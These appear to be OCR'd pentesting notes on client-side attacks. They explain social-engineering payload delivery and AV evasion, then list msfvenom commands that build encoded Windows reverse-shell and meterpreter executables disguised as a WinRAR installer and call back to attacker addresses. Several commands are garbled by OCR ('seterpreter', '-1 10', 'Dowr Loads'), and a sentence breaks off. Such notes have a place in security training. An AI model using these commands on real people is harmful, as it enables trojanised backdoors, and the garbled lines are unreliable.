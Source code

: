 --- 
+ A client-side attack is an attack vector that involves coercing a client to execute a
malicious payload on their system that consequently connects back to the attacker
when executed.

+ Client-side attacks typically utilize various social engineering techniques like
generating malicious documents or portable executables (PEs).

+ Client-side attacks take advantage of human vulnerabilities as opposed to
vulnerabilities in services or software running on the target system.

+ Given that this attack vector involves the transfer and storage of a malicious
payload on the client’s system (disk), attackers need to be cognisant of AV
detection.

### Msfvenom

+ Msfvenom is a command line utility that can be used to generate and
encode MSF payloads for various operating systems as well as web
servers.

+ Msfvenom is a combination of two utilities, namely; msfpayload and
msfencode.

+ We can use Msfvenom to generate a malicious meterpreter payload that
can be transferred to a client target system. Once executed, it will connect
back to our pay

``` bash
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=192.169.0.36 LPORT=80 -b "\x00" -e x86/shikata_ga_nai -f exe -o /root/Desktop/metasploit/IamNotBad.exe
# encode the payload with shikata_ga_nai

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=80 -e x86/shikata_ga_nai -i 10 -f exe -x $HOME/Downloads/wrar62.exe > -/Desktop/windows_Payloads/winrar.exe

 msfvenom -p windows/seterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=1234 -e x86/shikata_ga_nai -1 10 -f exe -k -x ~/Dowr Loads/wrar602.exe > ~/Desktop/Windows_Payloads/winrar-new.exe
 # -k continue the original behvior of the injectable app
```

